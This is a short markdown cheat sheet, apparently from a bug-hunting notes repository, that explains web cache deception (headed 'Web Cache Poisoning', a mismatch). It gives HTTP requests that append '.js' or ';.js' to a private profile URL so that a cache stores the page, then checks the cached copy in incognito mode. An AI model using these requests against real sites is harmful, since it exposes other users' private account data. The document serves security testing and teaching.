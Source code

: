 # Web Cache Poisoning

## Introduction
Web Cache Deception is an attack in which an attacker deceives a caching proxy into improperly storing private information sent over the internet and gaining unauthorized access to that cached data

## Where to find
`-`

## How to exploit
* Normal Request
```
GET /profile/setting HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```

1. Try to add cacheable extension (For example .js / .css / .jpg, etc.)
```
GET /profile/setting/.js HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```
If the response is success, try to open the url in the incognito mode.

2. Add `;` before the extension (For example `;.js` / `;.css` / `;.jpg`, etc.)
```
GET /profile/setting/;.js HTTP/1.1
Host: www.vuln.com
```
The response is
```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```
If the response is success, try to open the url in the incognito mode.

## References
* [@bxmbn](https://bxmbn.medium.com/how-i-test-for-web-cache-vulnerabilities-tips-and-tricks-9b138da08ff9)